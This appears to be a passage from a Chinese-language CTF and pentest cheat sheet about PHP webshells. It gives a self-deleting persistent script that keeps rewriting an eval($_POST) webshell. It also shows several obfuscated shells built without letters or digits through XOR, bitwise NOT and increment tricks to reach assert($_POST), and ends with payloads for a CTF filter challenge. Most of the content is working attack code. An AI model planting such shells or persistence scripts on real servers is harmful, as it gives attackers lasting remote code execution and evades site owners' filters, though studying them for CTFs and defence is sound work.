



### 四.不死马
 ```php
<?php
   set_time_limit(0);  //括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。
   ignore_user_abort(1);  //可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态
   unlink(__FILE__);  
   while(1){  
       file_put_contents('webshell.php','<?php @eval($_POST["password"]);?>');  
       sleep(5);  
  }
```
### 五　php 不用字母，数字和下划线写 shell
[php 不用字母，数字和下划线写 shell](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652848502&idx=1&sn=f6c55593d9f68d0d7f2d136ff330cabc&chksm=bd593dbb8a2eb4adbfe5dfd2c57339ed01d7394db2df456294cc0cac606632f39d08762153d7&mpshare=1&scene=23&srcid=0813pfK9QdVbfq9wKygb2cdD#rd)
[一些不包含数字和字母的 webshell](https://www.leavesongs.com/penetration/webshell-without-alphanum.html)
[php webshell](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
#### 在 PHP 中两个变量进行异或时，会先将字符串转换成 ASCII 值，再将 ASCII 值转换成二进制再进行异或，异或完又将结果从二进制转换成ASCII值，再转换成字符串。
```php
<?php
   @$_++; // $_ = 1
   $__=("#"^"|"); // $__ = _
   $__.=("."^"~"); // _P
   $__.=("/"^"`"); // _PO
   $__.=("|"^"/"); // _POS
   $__.=("{"^"/"); // _POST
   ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
甚至可以将上面的代码合并为一行，从而使程序的可读性更差:
#$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
?>
```
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

#### PHP 中取反 (~) 的概念

##### "和" 的第三个字节的值为 140[0x8c]，取反的值为 -141负数用十六进制表示，通常用的是补码的方式表示。负数的补码是它本身的值每位求反,最后再加一。141 的 16 进制为 0xff73，php  中 chr(0xff73)==115，115 就是 s 的 ASCII 值。因此
#### 不用数字构造出数字
##### 利用了 PHP 弱类型特性，true 的值为 1，故 true+true==2

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});#assert

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});#_POST

$_=$$_____;
$____($_[$__]);#assert($_POST['a']);
# ${~"\xa0\xb8\xba\xab"}=$_GET
```
#### php 递增／递减运算符
##### 在处理字符运算时，php沿袭perl的习惯，而非c类如：在perl中　$A='Z',$a++将变为‘ＡＡ’，而Ｃ中，a='Z';a++ 将把a变为'[')字符变量只能递曾，不能递减，并且只支持(a-z)(A-Z)'a'++ => 'b'，'b'++ => 'c'，我们只要能拿到一个变量，其值为 a，通过自增操作即可获得 a-z 中所有字符。数组（Array）的第一个字母就是大写 A，而且第 4 个字母是小写 a。在 PHP 中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为 Array。再取这个字符串的第一个字母，就可以获得 'A'。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
##### 1.PHP 允许动态函数执行
```php

<?php
function getflag()
{
	echo 123;
}
$a="getflag";
$a();
?>

```
#### 2. ${$a} $a变量是可以执行的 ${"`{{{"^"?<>/"}['+'] =
### 实列ctf
```php
<?php
include'flag.php';
if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>40){
       die("Long.");
  }
   if(preg_match("/[A-Za-z0-9]+/",$code)){ #如果为preg_match("/[A-Za-z0-9_]+/",$code)
       die("NO.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?>
```
```
payload1:?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
#$_GET[_]($_GET[__]);
payload2:${"`{{{"^"?<>/"}['+']();&+=getFlag
#$_GET['+']()
payload3:code=$啊=(%27%5D%40%5C%60%40%40%5D%27^%27%3A%25%28%26%2C%21%3A%27);$啊();


#利用动态函数
```
